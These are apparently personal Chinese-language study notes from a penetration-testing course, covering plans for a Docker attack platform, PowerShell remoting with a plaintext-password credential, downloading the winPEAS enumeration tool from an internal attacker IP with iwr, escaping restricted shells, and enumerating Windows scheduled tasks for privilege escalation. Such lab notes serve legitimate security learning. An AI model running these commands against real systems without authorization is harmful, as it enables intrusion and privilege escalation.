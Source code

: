 



# 2023/9/8

使用docker快速部署，架设渗透系统
使用脚本快速部署docker环境

需求：
* 含有web控制页面（python页面），在web上可以执行命令
* 模块化
* 体积小，利于网络传输
* 含有工程开发环境
* 含有热门渗透工具






# 2023/9/9



Enter-PSSession 与单个主机启动交互，所有输入会在远程主机执行
Enter-PSSession -ComputerName 主机名 -Credential PSCredential实体

创建PSCredential
PSCredential 对象表示一组安全凭据，例如用户名和密码。 此对象可以作为参数传递给函数，以便该函数以此凭据对象中的用户帐户身份运行
$password = ConvertTo-SecureString "MyPlainTextPassword" -AsPlainText -Force
创建安全字符串

$Cred = New-Object System.Management.Automation.PSCredential ("username", $password)
创建安全字符串后，需要将其传递到 PSCredential() 方法，以创建凭据对象。


* 16.1.5
使用自动提权枚举工具
powershell中使用iwr来远程下载枚举工具
```powershell
iwr -uri http://192.168.2.200/winPEASx64.exe -Outfile winPEAS.exe
```

evil-winrm在window中跳出restrick shell









* 16.3.1
windows自动任务
收集目标
1）这个自动任务的运行上下文是哪个用户，权限是否比现在使用的用户权限高
2）如何触发自动任务，如果过去满足了触发条件，那么任务将不会在将来再次运行
3）自动任务干了些什么

Get-ScheduledTask 获取自动任务列表
schtasks /query 获取自动任务列表
一般会有信息洪水
schtasks /query /fo LIST /v 显示名字，上下文用户，执行时间
